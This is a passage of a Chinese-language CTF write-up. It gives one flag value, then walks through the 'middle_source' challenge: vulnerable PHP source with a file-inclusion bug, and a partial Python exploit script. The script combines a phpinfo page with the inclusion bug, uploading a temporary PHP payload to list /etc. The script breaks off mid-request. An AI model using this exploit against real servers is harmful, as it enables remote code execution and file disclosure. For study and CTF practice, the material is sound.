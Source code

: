 根据结构指示拼接成flag:CISCN{e66a22e23457889b0fb1146d172a38dc}

## 场景实操二阶卷

## middle_source

在主页中列出了源码，存在一个文件包含漏洞

```php
<?php
    highlight_file(__FILE__);
    echo "your flag is in some file in /etc ";
    $fielf=$_POST["field"];
    $cf="/tmp/app_auth/cfile/".$_POST['cf'];
    
    if(file_exists($cf)){
        include $cf;
        echo $$field;
        exit;
    }
    else{
        echo "";
        exit;
    }
?> your flag is in some file in /etc
```

在.listing文件列出了当前目录的文件，存在一个`/you_can_seeeeeeee_me.php`文件，访问之后发现是phpinfo文件，与文件包含组合利用，包含上传的临时文件，可造成代码执行，枚举/etc目录中的文件

```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php var_dump(scandir('/etc'));?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /you_can_seeeeeeee_me.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""POST /index.php HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Content-Type: application/x-www-form-urlencoded
Host: %s\r
Content-Length: %s\r
```